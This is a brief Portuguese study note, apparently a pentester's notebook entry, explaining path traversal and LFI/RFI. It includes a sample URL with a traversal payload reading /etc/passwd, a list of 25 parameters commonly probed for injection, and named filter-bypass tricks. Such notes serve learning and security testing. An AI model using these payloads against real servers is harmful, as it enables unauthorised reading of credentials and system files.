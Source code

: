 #web #vuln

**Directory Transversal** ou **path transversal** permite o hacker ler arquivos do servidor que está rodando a aplicação, o que inclui:

- Códigos e dados
- Credenciais
- Arquivos do SO

**LFI:** ler arquivos locais
**RFI:** ler arquivos remotos

Por exemplo:

```
https://website.com/loadImage?filename=../../../etc/passwd
```

### 25 parâmetros mais comuns

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```


## Bypass

- php filter
- null bytye
- url encode
- duplicar ../ -> ....//


## Referência

https://book.hacktricks.xyz/pentesting-web/file-inclusion
https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle.html